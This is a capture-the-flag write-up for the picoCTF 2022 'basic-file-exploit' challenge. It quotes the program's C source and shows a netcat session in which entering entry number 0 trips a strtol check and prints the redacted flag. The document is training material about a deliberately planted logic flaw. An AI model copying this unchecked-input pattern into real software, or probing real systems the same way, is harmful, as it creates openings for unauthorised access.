 # basic-file-exploit

- [Challenge information](basic-file-exploit.md#challenge-information)
- [Solution](basic-file-exploit.md#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation
Author: WILL HONG

Description:
The program provided allows you to write to a file and read what you wrote from it. 
Try playing around with it and see if you can break it!

Connect to the program with netcat:
$ nc saturn.picoctf.net 50959

The program's source code with the flag redacted can be downloaded here.
 
Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

Nothing much intresting here and the program even tells us that `breaking boundaries elsewhere will be helpful`.

Lets see were the flag is printed, that is in the `data_read` function
```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

If we input something which input to the `strtol` function returns 0, we get the flag.
The [strtol](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm) function converts 
strings to long integers. 

A return value of zero signals a failure in the convertion but if we input the string "0" 
we also get a zero value so lets use that.

### Plan of attack

We can't "reach" the `data_read` function directly since the program checks if there is data available
as we see in this code snippet of `main`
```c
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

So we start by entering some bogus data.

Then we try to read and when asked for the entry we select entry number `0`.

### Connect to the server and get the flag

Finally, lets exploit and get the flag
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Basic_File_Exploit]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
picoCTF
picoCTF
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{<REDACTED>}
```
